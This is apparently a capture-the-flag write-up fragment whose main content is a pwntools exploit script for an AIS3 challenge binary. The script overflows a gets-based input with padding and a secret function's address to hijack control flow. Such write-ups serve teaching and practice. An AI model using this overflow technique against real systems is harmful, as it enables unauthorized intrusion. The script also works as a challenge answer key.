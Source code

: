    ```python
    # payload 1 (add user)
    p.sendlineafter(b'> ', '1')
    p.sendlineafter(b'Enter username (max 31 characters):', b'a')
    p.sendlineafter(b'Enter user account (max 15 characters):', b'a')
    p.sendlineafter(b'Enter user password (max 15 characters):', b'a')
    
    #gdb.attach(p)# payload 2 (crack gets)
    p.sendlineafter(b'> ', '3')
    p.sendlineafter(b'Enter the index of the user you want to delete:', b'a'*8*13+p64(secret_function_address))
    ```
    

### flag.py

```python
#!/usr/bin/env python3
from pwn import *

# env setting
context(arch = 'amd64', os = 'linux')
#context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

def connect():
    if True:
        return remote('chals1.ais3.org', port=10003)
    else:
        return process('./ms')

def main():
    p = connect()

    secret_function_address = 0x000000000040131b
    
    # payload 1 (add user)
    p.sendlineafter(b'> ', '1')
    p.sendlineafter(b'Enter username (max 31 characters):', b'a')
    p.sendlineafter(b'Enter user account (max 15 characters):', b'a')
    p.sendlineafter(b'Enter user password (max 15 characters):', b'a')
    
    #gdb.attach(p)
    
    # payload 2 (crack gets)
    p.sendlineafter(b'> ', '3')
    p.sendlineafter(b'Enter the index of the user you want to delete:', b'a'*8*13+p64(secret_function_address))

    p.interactive()

if __name__=='__main__':
    main()
```
